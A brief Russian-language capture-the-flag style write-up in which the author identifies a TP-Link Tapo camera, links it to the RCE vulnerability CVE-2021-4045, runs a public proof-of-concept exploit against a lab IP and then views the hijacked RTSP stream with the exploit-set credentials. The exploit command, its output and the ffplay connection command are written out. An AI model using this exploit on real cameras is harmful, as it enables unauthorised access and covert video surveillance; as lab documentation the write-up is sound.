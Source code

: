 Камера за 20

Пошел посмотрел как выглядит камера, увидел название Tapo, пошел гуглить что это и какая модель, и при этом exploit rce

Boutique officielle TP-Link Tapo

Увидел [https://www.exploit-db.com/exploits/51017](https://www.exploit-db.com/exploits/51017) вот ссылка, и понял что это CVE-2021-4045


`https://github.com/hacefresko/CVE-2021-4045` вот нормальный эксплоит

запустил его, и получил вывод
```
                                                                                                                                                                                               
┌──(kali㉿kaliOlymp)-[~/Загрузки/CVE-2021-4045]
└─$ python pwntapo.py rtsp 10.10.1.212 10.5.5.66


  CVE-2021-4045 PoC  _   @hacefresko
 _ ____      ___ __ | |_ __ _ _ __   ___
| '_ \ \ /\ / / '_ \| __/ _` | '_ \ / _ \
| |_) \ V  V /| | | | || (_| | |_) | (_) |
| .__/ \_/\_/ |_| |_|\__\__,_| .__/ \___/
|_|                          |_|

[+] Setting up RTSP video stream...
[+] RTSP video stream available at rtsp://10.10.1.212/stream2
[+] RTSP username: pwned1337
[+] RTSP password: pwned1337
                                 
```
Далее подключился к камере через команду

```
ffplay -rtsp_transport tcp "rtsp://pwned1337:pwned1337@10.10.1.212/stream2"
```
